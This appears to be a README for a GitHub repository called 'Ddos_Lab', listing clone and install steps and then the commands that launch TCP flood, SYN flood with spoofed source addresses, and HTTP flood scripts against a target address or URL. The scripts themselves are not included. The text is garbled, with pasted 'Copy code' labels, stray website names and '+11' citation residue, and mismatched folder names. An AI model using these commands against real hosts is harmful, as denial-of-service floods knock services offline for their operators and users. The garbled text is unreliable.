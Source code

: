 ```
git clone https://github.com/Mrglitchoffical/Ddos_Lab-2.1.git
```

```
cd Ddos_Lab-2

apt install python -y
```

```pip install -r requirements.txt ```

## Attacks

### TCP Flood
```bash
cd attack
python3 tcp_flood.py 192.168.0.100 80 200 0.01
```

### SYN Flood
```bash
Copy code
python3 syn_flood.py -t Your Link
```
50 k SYN packets with random spoofed IPs 
fr.wikipedia.org
tekleo.net
+11
thepythoncode.com
+11
cloudflare.com
+11
.

### HTTP Flood
bash
``` Copy code
python3 http_flood.py http://192.168.0.100 100 60
```
